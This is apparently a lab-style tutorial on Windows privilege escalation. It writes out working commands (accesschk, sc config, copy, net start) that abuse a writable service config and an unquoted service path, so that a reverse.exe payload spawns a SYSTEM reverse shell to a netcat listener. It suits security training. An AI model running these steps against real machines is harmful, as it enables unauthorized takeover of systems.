# 🔥 Windows Privilege Escalation

### (Method #1)

Firstly we will get a reverse connection to the victim machine and i will be using netcat as the listener on the attacker machine.

<figure><img src=".gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

Note that the "user" account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME):

`sc qc daclsvc`

Modify the service config and set the BINARY\_PATH\_NAME (binpath) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\"`

<figure><img src=".gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

<figure><img src=".gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### (Method #2)

Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:\


`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

<figure><img src=".gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

<figure><img src=".gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

### (Method #3)

